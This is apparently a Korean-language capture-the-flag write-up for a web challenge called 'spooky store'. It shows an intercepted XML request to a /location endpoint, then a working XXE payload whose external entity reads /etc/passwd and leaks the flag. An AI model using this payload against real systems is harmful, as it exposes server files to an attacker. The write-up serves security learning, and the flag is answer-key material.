


# spooky store
> It's a simple webpage with 3 buttons, you got this :)



버튼을 누르면 사진에 나와 있는 곳의 좌표를 출력해준다. API에 요청을 하는 것 같아서 프록시 툴로 확인해봤다.

```xml
<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>1</productId></locationCheck>
```

POST 방식으로 `/location`에 요청을 보낼 때 XML 데이터를 전송하는 것을 볼 수 있었다. XXE Injection을 시도하기 위해 [문서](https://portswigger.net/web-security/xxe)를 참고하여 다음과 같은 페이로드로 요청을 보냈다.

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE locationCheck [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]><locationCheck><productId>&xxe;</productId></locationCheck>
```



좌표 대신 `passwd` 파일의 내용이 출력되었고 맨 마지막에 플래그를 확인할 수 있었다.

**utflag{n3xt_y3ar_go1ng_bl1nd}**